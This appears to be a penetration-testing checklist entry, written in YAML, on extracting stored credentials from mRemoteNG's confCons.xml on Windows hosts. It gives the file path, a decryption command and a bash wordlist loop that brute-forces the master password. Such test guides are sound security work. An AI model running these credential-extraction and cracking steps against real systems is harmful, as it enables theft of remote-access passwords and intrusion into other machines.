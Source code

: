 ```yaml
---
testcase: Pillaging - Identify and Extract Sensitive Configuration Files (mRemoteNG Example)
platforms:
  - AD
  - Windows
methodology:
  - BlackBox
  - GreyBox
references:
  - https://attack.mitre.org/techniques/T1552/
how-to-test: |
  - Check if mRemoteNG is installed on the system.
  - Locate the configuration file (default: %USERPROFILE%\APPDATA\Roaming\mRemoteNG\confCons.xml).
  - Review the file contents for stored credentials (may be encrypted).
  - Use a decryption utility (e.g., mRemoteNG-Decrypt) to extract and attempt to decrypt passwords:
    - Example: `python3 mremoteng_decrypt.py -s "<Password_String>"`
    - If a master password is set, try known or common passwords, or use a wordlist to brute-force.
      - Example brute-force loop:
        ```bash
        for password in $(cat /usr/share/wordlists/fasttrack.txt); do
          python3 mremoteng_decrypt.py -s "<Password_String>" -p $password
        done
        ```
  - Extract any plaintext credentials found for remote systems.
---
```

